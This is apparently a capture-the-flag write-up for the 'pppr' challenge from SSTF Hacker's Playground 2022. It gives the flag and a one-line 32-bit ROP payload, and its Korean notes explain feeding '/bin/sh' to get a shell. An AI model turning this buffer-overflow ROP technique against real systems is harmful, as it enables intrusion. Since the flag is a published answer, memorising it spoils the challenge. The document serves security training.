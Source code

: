 ## Pwn6

### Source
 * pppr, SSTF Hacker's Playground 2022

### Deploy
 * docker-compose up --build

### Flag
 * `SCTF{Anc13nt_x86_R0P_5kiLl}`

### Exploit
 payload = b"A"*8(s) + b"BBB"(rbp) + p32(r_addr) + p32(pppr) + p32(buf_in_bss) + p32(16) + p32(0) + p32(x_addr) + p32(0) + p32(buf_in_bss)

### Note

* exploit을 보내면 r 함수가 동작하면서 문자열을 읽어들이므로 "/bin/sh"라는 입력을 주면 된다.
* 찾아보면 `0x0804836a : add esp, 8 ; pop ebx ; ret` 가젯도 있어서 이걸로 esp를 12 증가시킬 수 있지만, pppr 가젯을 사용하는 쪽이 더 일반적이다.
